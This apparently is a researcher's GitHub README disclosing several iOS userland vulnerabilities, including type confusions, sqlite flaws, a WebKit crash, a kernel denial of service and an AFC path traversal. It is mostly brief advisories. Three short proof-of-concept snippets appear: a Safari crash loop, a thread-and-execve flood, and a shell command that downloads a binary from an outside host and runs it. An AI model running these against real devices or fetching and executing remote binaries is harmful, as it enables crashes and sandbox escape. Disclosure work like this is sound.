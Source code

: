 # plata o plomo
Plata O Plomo (Spanish: Silver or Lead) is a term used in Latin America for when someone is forced to accept a bribe.

He or she can either accept the bribe or get a lead bullet in the head.

This repository contains minor bugs and vulnerabilities that I found in iOS userland.

## CVE 2018-???? iBooks Type Confusion
A type confusion vulnerability in iBooks may lead to memory corruption.

An attacker with access to a paired device over usb can exploit this vulnerability to cause a persistant denial of service in the iBooks application.

An attacker may be able to corrupt memory in the iBooks application.

The issue can be fixed by improved serialization and sandboxing.

## CVE 2018-???? MobileSlideShow Type Confusion
A type confusion vulnerability in MobileSlideShow may lead to memory corruption.

## CVE 2018-???? Assetsd Type Confusion
A type confusion vulnerability in assetsd may lead to memory corruption.

The issue can be fixed by improved serialization.

## CVE 2018-???? Launchd Type Confusion
A type confusion vulnerability exists in the initialization of launchdaemons.

A local attacker may be able to execute arbitrary code with system privileges and persistancy.

The issue can be fixed by improved serialization.

## CVE-2018-???? libsqlite3 Infoleak
A vulnerability exists in libsqlite3.

This is a known vulnerability but Apple has not patched it yet.

An attacker may be able to leak information about the address space of applications using the sqlite3 library.

## CVE-2018-???? libsqlite3 Memory Corruption
A vulnerability exists in libsqlite3.

This is a known vulnerability but Apple has not patched it yet.

An attacker may be able to execute arbitrary code with system privileges in applications using the sqlite3 library.


## CVE-2018-4361 Webkit Denial of Service
A remote attacker may be able to cause a denial of service in MobileSafari through maliciously crafted webcontent resulting in an application crash.

This vulnerability can be patched by improved memory management.

This issue seems to be patched in iOS 12.

_Quick Poc:_
```js
setInterval(function(){window.location.href='accounts://'+'A'.repeat(10000);},0.1);
```

## CVE-2018-???? Kernel Denial of Service
A local attacker may be able to cause a denial of service through a maliciously crafted application.

A logic flaw exists in process allocation.

This issue can be resolved through improved logic and improved sandboxing.

_Quick Poc:_
```Objc
for(int i = 0; i < 10000; i++) {
    dispatch_async(dispatch_get_main_queue(), ^(void){
        [NSThread detachNewThreadWithBlock:^(void){
              for(int j = 0; j < 10000; j++){
                execve("/SMOKE/A/LOT/OF/POT", NULL, NULL);
              }
        }];
    });
 ```

## CVE-2018-???? Apple File Conduit Infoleak
A local attacker may be able to list directories outside the sandbox.

A path traversal vulnerability exists in the afc service.

This issue can be resolved by improved path handling.

_Quick Poc:_
```sh
curl http://exploitation.cool/exploits/afcclient.bin | base 64 -D > afcclient && \
chmod +x afcclient && \
afcclient ls ../../../../../../usr/libexec/ \
```
